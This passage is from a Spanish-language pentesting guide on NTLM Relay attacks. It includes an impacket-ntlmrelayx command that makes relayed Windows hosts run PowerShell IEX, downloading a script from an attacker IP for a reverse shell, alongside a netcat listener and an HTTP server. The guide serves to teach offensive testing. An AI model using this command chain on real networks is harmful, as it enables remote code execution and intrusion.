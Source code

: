 Esto permitirá que podamos ejecutar la shell reversa directamente al subir el archivo a la victima ya que con el comando **IEX** haremos que lo ejecute directamente.

Por lo tanto, corremos un netcat a la escucha en el atacante \(como en la sección anterior\) y corremos un servidor http de python para enviar el script.

un impacket-ntlmrelayx que ejecute la subida de PS.ps1 a la victima.

`sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.132:8000/PS.ps1')" -smb2support`

![&#xA1;Premio!](../../.gitbook/assets/nishang3.png)

## CONCLUSIÓN

Como vemos, el ataque NTLM Relay es más potente que el SMB Relay siempre y cuando contemos con permisos de ejecución de comandos en el activo objetivo.

Las capacidades de post-exploiting son las mismas que las de SMB Relay desde el punto de vista de que los dos ataques se encuentran accesibles en este punto.

## REFERENCIAS

[https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)  
[https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/)


